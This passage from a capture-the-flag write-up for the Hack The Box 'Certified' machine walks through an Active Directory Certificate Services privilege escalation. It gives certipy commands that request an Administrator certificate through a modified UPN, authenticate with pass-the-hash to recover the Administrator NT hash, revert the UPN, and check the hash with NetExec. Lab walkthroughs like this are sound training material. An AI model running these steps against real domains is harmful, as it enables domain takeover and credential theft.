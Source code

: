 After successfully modifying the UPN of the account **CA_operator**.

We now request a certificate with CA in our case it is **certified-DC01-CA** for the **Administrator@certified.htb**

```bash
certipy req -u 'ca_operator@certified.htb' -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca 'certified-DC01-CA' -template 'CertifiedAuthentication' -dc-ip 10.129.231.186
```

![image.png](/assets/images/Certified_HTB/image%2025.png)

Now lets just authenticate using this **.pfx** file.

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.231.186
```

![image.png](/assets/images/Certified_HTB/image%2026.png)

Got the NT hash for the **administrator** account.

Now lets just revert back the changes.

```bash
certipy account update -u 'management_svc@certified.htb' -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.129.231.186
```

![image.png](/assets/images/Certified_HTB/image%2027.png)

**If we dont revert the changes back we will face authentication issues. If the UPN still says “Administrator@certified@htb” , the DC might map the cert to “CA_OPERATOR” which could trigger name mismatch errors or our most encountered error “KDC_ERR_C_PRINCIPAL_UNKNOWN” whenever requesting a TGT.**

Now lets verify that we have a correct **Administrator** hash using **NetExec**.

```bash
nxc ldap certified.htb -u 'Administrator' -H 0d5b49608bbce1751f708748f67e2d34
```
